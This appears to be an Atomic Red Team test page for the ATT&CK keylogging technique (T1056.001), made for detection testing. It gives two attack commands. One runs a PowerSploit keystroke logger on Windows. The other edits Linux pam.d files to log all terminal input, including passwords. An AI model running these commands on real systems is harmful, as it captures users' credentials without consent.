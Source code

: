 # T1056.001 - Keylogging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/001)
<blockquote>Adversaries may log user keystrokes to intercept credentials as the user types them. Keylogging is likely to be used to acquire credentials for new access opportunities when [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) efforts are not effective, and may require an adversary to intercept keystrokes on a system for a substantial period of time before credentials can be successfully captured.

Keylogging is the most prevalent type of input capture, with many different ways of intercepting keystrokes.(Citation: Adventures of a Keystroke) Some methods include:

* Hooking API callbacks used for processing keystrokes. Unlike [Credential API Hooking](https://attack.mitre.org/techniques/T1056/004), this focuses solely on API functions intended for processing keystroke data.
* Reading raw keystroke data from the hardware buffer.
* Windows Registry modifications.
* Custom drivers.
* [Modify System Image](https://attack.mitre.org/techniques/T1601) may provide adversaries with hooks into the operating system of network devices to read raw keystrokes for login sessions.(Citation: Cisco Blog Legacy Device Attacks) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Input Capture](#atomic-test-1---input-capture)

- [Atomic Test #2 - Living off the land Terminal Input Capture on Linux with pam.d](#atomic-test-2---living-off-the-land-terminal-input-capture-on-linux-with-pamd)


<br/>

## Atomic Test #1 - Input Capture
Utilize PowerShell and external resource to capture keystrokes
[Payload](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1056.001/src/Get-Keystrokes.ps1)
Provided by [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1)

Upon successful execution, Powershell will execute `Get-Keystrokes.ps1` and output to key.log.

**Supported Platforms:** Windows


**auto_generated_guid:** d9b633ca-8efb-45e6-b838-70f595c6ae26





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| filepath | Name of the local file, include path. | Path | $env:TEMP&#92;key.log|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-Location $PathToAtomicsFolder
.\T1056.001\src\Get-Keystrokes.ps1 -LogPath #{filepath}
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\key.log -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Living off the land Terminal Input Capture on Linux with pam.d
Pluggable Access Module, which is present on all modern Linux systems, generally contains a library called pam_tty_audit.so which logs all keystrokes for the selected users and sends it to audit.log.  All terminal activity on any new logins would then be archived and readable by an adversary with elevated privledges.

Passwords hidden by the console can also be logged, with 'log_passwd' as in this example.  If root logging is enabled, then output from any process which is later started by root is also logged, even if this policy is carefully enabled (e.g. 'disable=*' as the initial command).

Use 'aureport --tty' or other audit.d reading tools to read the log output, which is binary.  Mac OS does not currently contain the pam_tty_audit.so library.

**Supported Platforms:** Linux


**auto_generated_guid:** 9c6bdb34-a89f-4b90-acb1-5970614c711b






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
if sudo test -f /etc/pam.d/password-auth; then sudo cp /etc/pam.d/password-auth /tmp/password-auth.bk; fi; if sudo test -f /etc/pam.d/system-auth; then sudo cp /etc/pam.d/system-auth /tmp/system-auth.bk; fi; sudo touch /tmp/password-auth.bk sudo touch /tmp/system-auth.bk sudo echo "session    required    pam_tty_audit.so enable=* log_password" >> /etc/pam.d/password-auth sudo echo "session    required    pam_tty_audit.so enable=* log_password" >> /etc/pam.d/system-auth
```

#### Cleanup Commands:
```sh
sudo cp -f /tmp/password-auth.bk /etc/pam.d/password-auth
sudo cp -f /tmp/system-auth.bk /etc/pam.d/system-auth
```





<br/>
